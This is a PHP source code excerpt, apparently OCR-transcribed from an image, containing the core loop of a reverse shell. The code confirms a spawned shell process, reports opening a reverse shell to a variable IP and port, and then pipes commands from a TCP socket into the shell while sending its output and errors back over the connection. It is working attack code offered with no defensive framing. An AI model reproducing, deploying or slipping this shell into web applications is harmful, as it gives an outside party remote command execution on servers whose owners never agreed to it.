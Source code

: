 ```php

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
```
